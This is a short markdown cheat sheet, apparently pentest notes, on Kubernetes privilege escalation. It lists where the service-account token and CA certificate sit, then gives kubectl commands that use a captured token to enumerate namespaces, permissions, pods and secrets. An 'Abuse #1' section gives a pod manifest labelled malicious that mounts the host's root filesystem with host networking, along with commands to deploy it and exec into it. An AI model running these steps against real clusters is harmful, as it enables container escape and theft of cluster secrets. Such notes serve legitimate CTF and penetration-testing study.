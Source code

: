 ```yaml
---
title: "Kubernetes"
date: 2024-7-22
tags: ["Kubernetes", "container", "privesc"]
---
```


---
### Token Location

```bash
/run/secrets/kubernetes.io/serviceaccount/token
```

### Certificate Location

```bash
/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Tools

[kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)

### Basic Commands

```bash
# List all namespaces
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 get namespaces
```

```bash
# Get user permissions in current namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 auth can-i --list
```

```bash
# Get user permissions in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 auth can-i --list -n <NAMESPACE>
```

```bash
# List all pods
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 get pods --all-namespaces
```

```bash
# List pods in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 get pods -n <NAMESPACE>
```

```bash
# Get YAML of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 get pod <POD_NAME> -o yaml
```

```bash
# Get info of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 describe pod <POD_NAME> -n <NAMESPACE>
```

```bash
# List secrets
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 get secrets -n <NAMESPACE>
```

```bash
# Get info of a secret
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 describe secret <secret_name> -n <NAMESPACE>
```

### Abuse #1: Mount host's file system

#### 1. Create a Malicious YAML (Template)

```
apiVersion: v1 
kind: Pod
metadata:
  name: alpine
  namespace: <NAMESPACE_NAME>
spec:
  containers:
  - name: test
    image: <IMAGE_NAME>
    command: ["/bin/sh"]
    args: ["-c", "sleep 300000"]
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

#### 2. Create a new pod

```bash
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 apply -f test.yaml
```

#### 3. Execute

```bash
kubectl --token <TOKEN> --certificate-authority ca.crt --server https://10.10.11.10:8443 exec test --stdin --tty -n <NAMESPACE>
```

```bash
# Check host filesystem
cd /mnt/root/
```

<br>